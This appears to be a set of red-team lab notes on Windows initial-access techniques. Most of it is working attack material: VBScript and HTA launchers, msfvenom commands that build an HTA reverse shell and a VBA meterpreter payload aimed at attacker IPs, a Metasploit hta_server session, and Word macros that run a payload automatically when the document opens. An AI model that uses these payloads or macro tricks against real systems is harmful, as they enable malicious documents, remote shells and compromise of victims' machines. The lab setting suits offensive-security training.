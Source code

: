 ## wsh
cscript.exe or wscript.exe executes VBScript, it runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

```c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs ```
```
#payload.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```


## hta
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


```
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

#### HTA reverse connection
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh 
```

### HTA reverse connection with metasploit

```
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```


### Macros
Save as office 97-2003 doc
```
Sub Document_Open()
  PoC
End Sub

Sub AutoOpen()
  PoC
End Sub


Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```
Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.